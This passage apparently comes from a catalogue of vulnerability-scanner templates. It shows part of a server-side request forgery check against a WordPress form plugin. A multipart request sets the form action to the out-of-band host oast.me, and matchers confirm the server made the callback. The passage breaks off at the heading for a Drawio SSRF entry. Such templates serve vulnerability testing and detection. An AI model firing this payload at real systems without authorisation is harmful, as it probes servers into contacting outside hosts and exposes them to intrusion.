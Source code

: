 ```
Content-Disposition: form-data; name="post_id"

0
-----------------------------30259827232283860776499538268
Content-Disposition: form-data; name="field_labels"

{"email":"Email address"}
-----------------------------30259827232283860776499538268
Content-Disposition: form-data; name="hidden_field_names"

[]
-----------------------------30259827232283860776499538268
Content-Disposition: form-data; name="fusionAction"

https://oast.me
-----------------------------30259827232283860776499538268
Content-Disposition: form-data; name="fusionActionMethod"

GET
-----------------------------30259827232283860776499538268--

```

### Matchers

**Type - word**

- part - body_2
- words
  1. Interactsh Server

**Type - status**

- status
  1. 200

### Extractors

**Type - xpath**

- part - body_1
- name - fusionformnonce
- attribute - value
- xpath
  1. //\*[@id="fusion-form-nonce-0"]
- internal - True

---

# Drawio < 18.1.2 - Server Side Request Forgery

## Description
